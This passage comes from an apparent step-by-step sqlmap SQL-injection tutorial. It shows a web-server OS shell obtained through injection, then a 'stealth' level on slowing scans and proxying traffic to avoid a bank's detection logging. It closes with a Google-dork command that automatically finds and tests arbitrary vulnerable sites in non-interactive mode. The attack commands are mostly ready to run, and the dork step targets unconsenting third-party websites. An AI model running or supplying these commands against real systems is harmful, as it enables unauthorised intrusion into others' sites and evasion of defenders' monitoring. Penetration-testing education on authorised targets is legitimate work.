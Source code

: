 sql

Copy

[INFO] assuming web server document root is '/var/www/html'
os-shell> whoami
www-data

#### Key Learnings:

- Bypassing WAFs with tamper scripts.
    
- Escalating to OS-level access.
    

---

## **Level 4: Stealth & Automation (Expert)**

### Scenario: Avoiding Detection in a High-Security Environment

The fictional company **SecureBank** logs all suspicious activity. We need to stay undetected.

#### Step 1: Slow and Stealthy Scanning

Use delays and proxy traffic through Burp Suite:

bash

Copy

sqlmap -u "http://securebank.com/login.php?user=test" --delay=5 --proxy="http://127.0.0.1:8080"

- `--delay=5`: Waits 5 seconds between requests.
    
- `--proxy`: Routes traffic through Burp Suite for manual analysis.
    

#### Step 2: Using Google Dorks for Target Discovery

Find vulnerable sites automatically:

bash

Copy

sqlmap -g "inurl:product.php?id=" --batch

- `-g`: Uses Google dorks to find targets.
    
- `--batch`: Runs in non-interactive mode.
    

#### Key Learnings:

- Avoiding detection with rate limiting.
    
- Automating target discovery.
    

---